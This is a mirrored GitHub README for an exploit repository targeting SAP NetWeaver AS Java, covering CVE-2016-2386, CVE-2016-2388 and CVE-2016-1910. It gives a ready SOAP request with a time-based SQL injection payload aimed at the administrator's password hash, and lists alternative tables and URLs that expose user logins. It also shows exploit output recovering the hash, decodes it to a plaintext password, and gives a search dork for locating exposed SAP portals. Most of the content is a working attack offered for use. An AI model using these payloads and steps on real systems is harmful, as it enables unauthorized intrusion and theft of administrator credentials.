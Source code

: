 # SAP_exploit

Here you can get full exploit for SAP NetWeaver AS JAVA

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/vah13](https://github.com/vah13) |
| Url      | [https://github.com/vah13/SAP_exploit](https://github.com/vah13/SAP_exploit)                                               |
| Stars    | 69                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2016-1910* cve-2016-2386* cve-2016-2388* exploit* information-disclosure* sap* sql-injection* vulnerability

</details>

## Readme

# SAP_exploit
Author: Vahagn Vardanyan https://twitter.com/vah_13

Bugs:

CVE-2016-2386 SQL injection

CVE-2016-2388 Information disclosure

CVE-2016-1910 Crypto issue



Follow HTTP request is a simple PoC for anon time-based SQL injection (CVE-2016-2386) vulnerability in SAP NetWeaver AS Java UDDI 7.11-7.50



```
  
    POST /UDDISecurityService/UDDISecurityImplBean HTTP/1.1
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
    SOAPAction:
    Content-Type: text/xml;charset=UTF-8
    Host: nw74:50000
    Content-Length: 500

    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:sec="http://sap.com/esi/uddi/ejb/security/">
	  <soapenv:Header/>
	  <soapenv:Body>
		<sec:deletePermissionById>
		  <permissionId>1' AND 1=(select COUNT(*) from J2EE_CONFIGENTRY, UME_STRINGS where UME_STRINGS.PID like '%PRIVATE_DATASOURCE.un:Administrator%' and UME_STRINGS.VAL like '%SHA-512%') AND '1'='1</permissionId>
		</sec:deletePermissionById>
	  </soapenv:Body>
    </soapenv:Envelope>
  
```


In SAP test server I have admin user who login is "Administrator" and so I used this payload

        %PRIVATE_DATASOURCE.un:Administrator%

most SAP's using j2ee_admin username for SAP administrator login

        %PRIVATE_DATASOURCE.un:j2ee_admin%

You can get all SAP users login using these URLs (CVE-2016-2388 - information disclosure)
```
	1)	http:/SAP_IP:SAP_PORT/webdynpro/resources/sap.com/tc~rtc~coll.appl.rtc~wd_chat/Chat#
	2)	http:/SAP_IP:SAP_PORT/webdynpro/resources/sap.com/tc~rtc~coll.appl.rtc~wd_chat/Messages#
```
Instead of J2EE_CONFIGENTRY table you can use this tables
```
        UME_STRINGS_PERM
        UME_STRINGS_ACTN
        BC_DDDBDP
        BC_COMPVERS
        TC_WDRR_MRO_LUT
        TC_WDRR_MRO_FILES
        T_CHUNK                !!! very big table, if SAP server will not response during 20 seconds then you have SQL injection
        T_DOMAIN
        T_SESSION
        UME_ACL_SUP_PERM
        UME_ACL_PERM
        UME_ACL_PERM_MEM
```

An example of a working exploit
```
	C:\Python27\python.exe SQL_injection_CVE-2016-2386.py --host nw74 --port 50000
	start to retrieve data from the table UMS_STRINGS from nw74 server using CVE-2016-2386 exploit
	this may take a few minutes
	Found {SHA-512, 10000, 24}M
	Found {SHA-512, 10000, 24}MT
	Found {SHA-512, 10000, 24}MTI
	Found {SHA-512, 10000, 24}MTIz
	Found {SHA-512, 10000, 24}MTIzU
	Found {SHA-512, 10000, 24}MTIzUV
	Found {SHA-512, 10000, 24}MTIzUVd
	Found {SHA-512, 10000, 24}MTIzUVdF
	Found {SHA-512, 10000, 24}MTIzUVdFY
	Found {SHA-512, 10000, 24}MTIzUVdFYX
	Found {SHA-512, 10000, 24}MTIzUVdFYXN
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk8
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk88
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk88F
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk88Fx
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk88Fxu
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk88FxuY
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk88FxuYC
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk88FxuYC6
	Found {SHA-512, 10000, 24}MTIzUVdFYXNk88FxuYC6X
```

And finaly using CVE-2016-1910 (Crypto issue) you can get administrator password in plain text
```
	base64_decode(MTIzUVdFYXNk88FxuYC6X)=123QWEasdóÁq¹ºX
```

![CVE-2016-2386](https://github.com/vah13/SAP_exploit/blob/master/img/exploit.gif?raw=true)


[PDF whitepaper] https://erpscan.com/wp-content/uploads/2017/12/Hardcore-SAP-Penetration-Testing.pdf

[SAP-Google-Dork] inurl:/irj/portal



## Get the content

```
git clone https://github.com/vah13/SAP_exploit
cd SAP_exploit
```

{% embed url="https://github.com/vah13/SAP_exploit" %}

<figure><img src="https://avatars.githubusercontent.com/u/7976421?v=4" alt=""><figcaption><p>vah13</p></figcaption></figure>
